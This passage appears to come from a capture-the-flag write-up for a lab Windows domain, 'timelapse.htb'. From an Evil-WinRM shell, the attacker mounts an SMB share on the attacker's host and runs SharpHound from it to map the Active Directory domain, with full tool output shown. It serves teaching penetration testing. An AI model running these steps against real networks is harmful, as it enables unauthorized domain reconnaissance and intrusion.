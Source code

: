 Because we are in a Active Directory Domain environment, we will run **Sharphound**, an investigator used to gather information from all over the domain. **SharpHound** is preferable for looting. So first run a **smbserver** on our attacker machine and create shares and then access those shares on victim machine and run tools remotely. For this we will be using script called **smbserver.py** from **impacket** toolkit. 

```powershell
C:\Users\svc_deploy\Documents> net use \\10.10.10.10\share /u:ab ab
Enter PEM pass phrase:
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> cd \\10.10.10.10\share
Enter PEM pass phrase:
```

```powershell
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.10\share> ./SharpHound.exe -c all
2024-01-20T07:54:16.5774527-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-01-20T07:54:20.4368309-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-01-20T07:54:23.4993328-08:00|INFORMATION|Initializing SharpHound at 7:54 AM on 1/20/2024
2024-01-20T07:54:27.8587016-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for timelapse.htb : dc01.timelapse.htb
2024-01-20T07:54:39.3274598-08:00|INFORMATION|Loaded cache with stats: 71 ID to type mappings.
 71 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-01-20T07:54:40.9368291-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-01-20T07:54:47.0305955-08:00|INFORMATION|Beginning LDAP search for timelapse.htb
2024-01-20T07:54:47.1087146-08:00|INFORMATION|Producer has finished, closing LDAP channel
2024-01-20T07:54:47.1087146-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-01-20T07:55:21.7493247-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2024-01-20T07:55:52.4524535-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2024-01-20T07:56:25.9524614-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2024-01-20T07:57:02.8070949-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2024-01-20T07:57:39.5471716-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 37 MB RAM
2024-01-20T07:58:33.2180844-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 37 MB RAM
2024-01-20T07:59:04.0675206-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 37 MB RAM
2024-01-20T07:59:34.4680783-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 39 MB RAM
2024-01-20T08:00:12.6264657-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 40 MB RAM
2024-01-20T08:00:21.9837047-08:00|INFORMATION|Consumers finished, closing output channel
2024-01-20T08:00:22.0305886-08:00|INFORMATION|Output channel closed, waiting for output task to complete
2024-01-20T08:00:42.6974341-08:00|INFORMATION|Status: 56 objects finished (+56 0.1577465)/s -- Using 40 MB RAM
Closing writers
2024-01-20T08:01:12.7024498-08:00|INFORMATION|Status: 112 objects finished (+56 0.2909091)/s -- Using 40 MB RAM
2024-01-20T08:01:18.5618265-08:00|INFORMATION|Status: 112 objects finished (+0 0.286445)/s -- Using 40 MB RAM
2024-01-20T08:01:18.5618265-08:00|INFORMATION|Enumeration finished in 00:06:31.5287572
2024-01-20T08:03:06.4680889-08:00|INFORMATION|Saving cache with stats: 71 ID to type mappings.
 71 name to SID mappings.
```